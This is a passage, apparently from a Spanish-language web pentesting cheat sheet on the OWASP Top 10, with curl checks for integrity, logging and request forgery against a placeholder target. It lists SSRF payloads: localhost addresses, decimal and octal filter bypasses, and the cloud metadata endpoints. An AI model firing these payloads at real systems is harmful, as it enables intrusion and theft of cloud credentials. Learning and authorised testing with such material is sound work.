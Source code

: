 ### **8. Software Integrity Failures (A08:2021)**

#### **Detección**
```bash
# Verificar integridad de recursos
curl -s http://target | grep -E "integrity=|crossorigin="

# CDN externos sin verificación
curl -s http://target | grep -o 'src="http[^"]*"' | grep -v target.com
```

### **9. Logging Failures (A09:2021)**

#### **Tests**
```bash
# Generar eventos que deberían loggearse
curl -d "user=admin&pass=wrongpass" http://target/login
curl http://target/admin/sensitive-action
curl "http://target/search?q=<script>alert('xss')</script>"

# Verificar si se registran
curl http://target/logs/ 2>/dev/null | grep -q "admin"
```

### **10. Server-Side Request Forgery (A10:2021)**

#### **Payloads SSRF**
```bash
# Localhost
http://localhost:80/
http://127.0.0.1:22/
http://0.0.0.0:3306/

# Bypass filters
http://127.1:80/
http://2130706433/ (decimal de 127.0.0.1)
http://017700000001/ (octal de 127.0.0.1)

# Cloud metadata
http://169.254.169.254/latest/meta-data/
http://metadata.google.internal/computeMetadata/v1/
```

## **🔍 HERRAMIENTAS DE DETECCIÓN NATIVAS**

### **Curl para Web Testing**
```bash
# Headers completos
curl -I -X GET http://target

# POST con datos
curl -d "param1=value1&param2=value2" http://target/form

# Cookies
curl -b "session=abc123" http://target/protected

# User agent personalizado
curl -A "Custom-Agent/1.0" http://target

# Seguir redirects
curl -L http://target

# Tiempo de respuesta
```